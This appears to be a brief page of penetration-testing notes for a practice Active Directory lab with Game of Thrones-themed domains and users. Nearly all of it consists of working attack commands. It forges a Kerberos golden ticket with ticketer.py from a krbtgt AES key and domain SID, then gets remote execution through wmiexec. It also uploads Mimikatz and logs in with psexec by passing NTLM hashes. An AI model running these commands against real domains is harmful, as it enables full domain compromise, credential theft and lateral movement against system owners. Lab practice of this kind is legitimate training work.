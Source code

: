 ### Working Golden Ticket

`ticketer.py -aesKey badd865cdb6de2c5ee6e1d2baa1e02ff52b2bee490a90f1ee3d2624ad9aa9580 -domain-sid S-1-5-21-58534182-3680670537-1634125476 -extra-pac -domain north.sevenkingdoms.local -user-id 1111 eddard.stark`

`export KRB5CCNAME=/home/kali/eddard.stark.ccache`

`wmiexec.py -k -no-pass north.sevenkingdoms.local/eddard.stark@winterfell.north.sevenkingdoms.local`


# GOLDEN TICKET MIMIKATZ

### Upload Mimikatz to target

Use smbvclient to pass the hash with Robb.Stark and upload the mimikatz file.

`smbclient.py -hashes :831486ac7f26860c9e2f51ac91e1a07a NORTH/robb.stark@10.4.10.22`

Logn in with PSEXEC and pass-the-hash:

`psexec.py north.sevenkingdoms.local/eddard.stark@10.4.10.22 -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8`

